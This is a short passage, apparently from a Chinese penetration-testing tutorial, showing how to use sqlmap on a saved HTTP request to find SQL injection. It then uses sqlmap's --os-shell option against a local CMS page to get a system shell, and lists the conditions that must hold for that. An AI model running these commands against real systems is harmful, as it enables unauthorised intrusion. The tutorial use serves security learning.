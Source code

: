 
选择一个位置保存

<img src="./imgs/9dd06ef923981876b83679d3888ed1bd.png" alt="image-20230824195609397" style="zoom:33%;" />

然后使用sqlmap判断是否存在注入点

```python
python sqlmap.py -r C:\\Users\zs\\Documents\\1.txt
```

![在这里插入图片描述](./imgs/1b2a15343d964b749757e34c941026af.gif)


#### GetShell

- 受到secure_file_priv 选项的限制

- 目标系统Web 根目录的绝对路径

- 目录权限

```sql
1	sqlmap -u "http://127.0.0.1/cms/show.php?id=32" --os-shell
```
